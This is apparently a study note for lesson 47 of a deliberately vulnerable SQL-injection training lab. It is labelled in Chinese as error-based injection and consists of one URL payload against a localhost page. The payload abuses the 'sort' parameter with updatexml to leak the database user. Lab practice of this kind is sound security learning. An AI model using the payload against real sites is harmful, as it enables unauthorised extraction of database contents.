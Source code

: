 # Lesson-47
```
报错注入
```

```
http://127.0.0.1/Less-47/?sort=0%27and%20(updatexml(1,concat(0x5e24,(user()),0x5e24),1))--+
```

